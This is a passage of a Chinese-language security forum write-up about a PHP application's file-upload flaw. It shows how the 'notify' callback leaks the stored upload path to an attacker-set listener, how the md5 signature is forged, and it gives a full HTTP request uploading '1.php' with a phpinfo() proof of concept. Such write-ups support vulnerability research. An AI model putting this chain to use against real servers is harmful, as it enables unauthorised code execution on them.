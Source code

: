 上传后返回如下

![image](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-40102501a29978da3c3f658a8840b6285b615378.png)​

解码后为 同步错误

![image](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-b81c8a56511a010de9aefda381da8ec947c73aac.png)​

‍

来看看源码

![image](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-96454e45946f016a207bd9e387f7042cbff79dbf.png)​

发现已经上传了，但是咱不知道上传路径啊。。。找一下本地可以发现在这里

![image](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-6e25a924ea23c6a211f1340387a0b8b99b892cc2.png)​

‍

但是如何找路径呢，可以关注到后续还有一串代码

```php
$res = $this-&gt;upload_notify($_GET['notify'],$info);
```

我将`$info`​打印了下发现已经存入了上传的路径了

![image](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-71b1e52d50d574394d8ff9ea01375d2dcc907fb7.png)​

跟进下`upload_notify`​ 发现跟SSRF一样可以向外请求并且带上我们的`$info`​ --------&gt; 这感觉写的就怕我找不到路径似的,这里的验签压根就不需要管他，因为文件都传上去了，无所谓了，只需要路径，而他也并没有判断验签对不对(如果校验了，就没办法上传了，因为`$info`​是未知的)

![image](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-9446202c7fbcea4e26fdb553269389ea779a2bb7.png)​

于是带好参数写好验签即可成功触发

```php
echo md5("md=upload&amp;notify=http://127.0.0.1:8877/&amp;uid=1asdasfasfasfasfasfa");
```

‍

![image](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-76b85f282b13318bca4f87cda49fcb44ef2db4c1.png)​

‍

```xml
POST /server/index.php/start?md=upload&amp;uid=1&amp;notify=http://127.0.0.1:8877/&amp;sign=88c03d47ed5a1df9ed7ed9e1c1ce8afd HTTP/1.1
Host: wp.com
Cache-Control: no-cache
Accept: */*
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=--------------------------570796120375390059114427
User-Agent: PostmanRuntime-ApipostRuntime/1.1.0
Content-Length: 389

----------------------------570796120375390059114427
Content-Disposition: form-data; name="file"; filename="1.php"
Content-Type: application/x-httpd-php

&lt;?php phpinfo(); ?&gt;
----------------------------570796120375390059114427--
```
